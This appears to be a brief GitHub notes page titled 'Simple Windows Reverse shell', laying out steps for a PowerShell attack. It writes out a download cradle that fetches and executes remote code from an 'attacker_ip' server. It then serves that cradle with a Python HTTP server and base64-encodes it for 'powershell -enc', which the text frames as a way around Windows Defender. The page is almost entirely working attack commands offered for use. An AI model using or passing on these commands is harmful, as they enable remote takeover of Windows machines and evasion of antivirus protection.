# Simple Windows Reverse shell 
If this not working try the another one that is blocked by defender...

```language
nano touch.ps1
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")
python3 -m http.server 8000
cat cradle | iconv -t utf-16le | base64 -w0; echo
powershell -enc <encoded_code>
```

